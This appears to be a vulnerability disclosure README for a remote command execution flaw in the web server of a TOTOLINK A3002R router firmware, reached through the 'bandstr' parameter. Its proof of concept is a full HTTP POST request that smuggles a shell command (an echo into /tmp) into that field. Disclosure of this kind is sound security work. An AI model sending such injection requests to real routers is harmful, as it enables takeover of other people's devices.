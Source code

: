# totolink_A3002R_remote_command_exec
**description**: a Remote-Command-Execution  in /bin/boa on totolink A3002R-V4.0.0-B20230531.1404 via parameter "bandstr"


## Firmware
**brand**:totolink   

**product**:A3002R-V4 

**version**:V4.0.0-B20230531.1404

**addr**:0045a2a4
**function**:FUN_0045a1f8

The firmware can be downloaded from this website[1] and using FirmAE to simulate the router environment.   
The command is 

![alt text](./img/image-2.png)

# poc
burp suite change the packet as follow
```
POST /boafrm/formMapDelDevice HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 146

Origin: http://192.168.0.1

Connection: close

Referer: http://192.168.0.1/map_del_device

Upgrade-Insecure-Requests: 1



sessionCheck=5ef3b954a1316eeedf1d36330046c0ca&submit-url=%2FformMapDelDevice.htm&macstr=123&clientoff=no&bandstr=123;echo%20123456%20>/tmp/rec1.txt
```
![alt text](./img/image.png)
[1]:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/258/ids/36.html
